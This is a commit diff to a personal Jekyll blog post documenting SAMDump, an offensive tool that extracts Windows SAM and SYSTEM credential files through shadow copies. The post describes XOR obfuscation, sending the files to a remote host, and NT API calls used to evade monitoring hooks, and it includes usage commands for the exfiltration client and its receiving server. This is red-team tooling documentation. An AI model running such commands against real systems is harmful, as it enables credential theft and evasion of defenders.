

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2025-11-14-samdump.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Date update
Updated the SAMDump documentation to include new features and usage instructions.

```diff
--- a/_posts/2026-11-14-samdump.md
+++ b/_posts/2025-11-14-samdump.md
@@ -9,19 +9,22 @@ SAMDump extracts Windows SAM and SYSTEM files using Volume Shadow Copy Service (
 <!--more-->
 
 
-Repository: [https://github.com/ricardojoserf/SAMDump](https://github.com/ricardojoserf/SAMDump)
+**Repository**: [https://github.com/ricardojoserf/SAMDump](https://github.com/ricardojoserf/SAMDump)
 
 Implemented features:
 
-- Lists volume shadow copies using VSS and creates one if necessary
+- Lists Volume Shadow Copies using VSS and creates one if necessary
 
-- Extracts SAM and SYSTEM files from shadow copies
+- Extracts SAM and SYSTEM files from the Shadow Copy
 
-- Uses direct NT API calls for file operations
+- Uses NT API calls for file operations (*NtCreateFile*, *NtReadFile*, *NtWriteFile*)
 
 - Supports XOR encoding for obfuscation
 
-- Multiple exfiltration methods: local save or network transfer
+- Exfiltration methods: Local save or Network transfer
+
+
+It requires to run as Administrator, and if created the Shadow Copy is automatically deleted after ~5 minutes.
 
 <br>
 
@@ -68,6 +71,7 @@ SAMDump.exe --send-remote --host 192.168.1.72 --port 1234 --xor-encode
 ![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/samdump/Screenshot_3.png)
 
 
+
 <br>
 
 -------------------------------------------------------------------
@@ -93,6 +97,8 @@ python server.py --host 192.168.1.72 --port 1234 --xor-key "SAMDump2025"
 
 ![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/samdump/Screenshot_4.png)
 
+The filename contains the IP address and the date, so you can send the files from different systems, automating the process.
+
 
 
 <br>
@@ -144,6 +150,7 @@ This tool extracts the files without writing to the target filesystem when using
 Plus, it leverages NT API calls to bypass some monitoring and user-mode API hooks.
 
 
+
 <br>
 
 -------------------------------------------------------------------
@@ -158,4 +165,5 @@ The tool employs NT system calls instead of standard Windows API functions, whic
 
 - It uses a custom *GetProcAddress* implementation to resolve function addresses using only *NtReadVirtualMemory*
 
+
 <br>
```
Also changed, not shown: other parts of _posts/2025-11-14-samdump.md (+1 -1 lines).
